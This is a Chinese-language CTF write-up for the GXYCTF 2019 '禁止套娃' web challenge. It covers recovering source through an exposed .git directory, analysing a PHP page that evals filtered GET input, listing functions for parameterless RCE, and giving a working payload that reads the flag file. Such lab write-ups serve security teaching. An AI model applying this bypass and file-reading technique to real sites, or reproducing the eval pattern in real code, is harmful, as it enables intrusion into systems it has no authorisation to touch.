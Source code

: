 # 2021/07/21

## 禁止套娃

> GXYCTF 2019

### 题目

页面上啥也没有

![202107211](img/20210721/202107211.png)

先用`ctf-wscan`扫下文件，发现存在`/.git/`目录，说明是**Git泄露**，`GitHack`跑一下，发现`index.php`

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

本质是个**代码执行**，第一层先把各种**伪协议**都过滤了，第二层参数只能为`*()`的无参数函数形式，第三层是过滤了一些关键字，这道题考察的是**无参数RCE**，常见的可能利用到的函数如下

| 函数名                           | 功能                                                         |
| -------------------------------- | ------------------------------------------------------------ |
| `array_flip()`                   | 交换数组中的键和值                                           |
| `array_rand()`                   | 从一个数组中随机取出一个或者多个单元                         |
| `array_reverse()`                | 返回一个顺序相反的数组                                       |
| `current()/pos()`                | 返回当前元素                                                 |
| `end()`                          | 将数组内部指针指向最后一个单元                               |
| `key()`                          | 取得键名                                                     |
| `each()`                         | 返回数组中当前的键值对并将数组指针前移一位                   |
| `pev()`                          | 将数组的内部指针倒退以为                                     |
| `reset()`                        | 将数组的内部指针指向第一个单元                               |
| `next()`                         | 将数组的内部指针指向下一位                                   |
| `highlight_file()/show_source()` | 语法高亮一个文件                                             |
| `scandir()`                      | 列出指定路径中的文件和目录                                   |
| `direname()`                     | 给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名 |
| `getcwd()`                       | 取得当前工作目录                                             |
| `chdir($directory)`              | 将 PHP 的当前目录改为 directory                              |
| `get_defined_vars()`             | 此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量 |
| `getenv()`                       | 获取一个环境变量的值                                         |
| `localeconv()`                   | 返回一包含本地数字及货币格式信息的数组,第一个值一直是`.`     |
| `phpversion()`                   | 获取当前的PHP版本                                            |
| `session_id()`                   | 获取/设置当前会话 ID                                         |
| `session_start()`                | 启动新会话或者重用现有会话                                   |

先试试`print_r(scandir(pos(localeconv())));`

![202107212](img/20210721/202107212.png)

这样，我们只需要先把数组翻转过来`array_reverse()`，然后将数组指针指向下一个`next()`，再读取源码`highlight_file()/show_source()`就可以得到`flag`

### payload

```
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```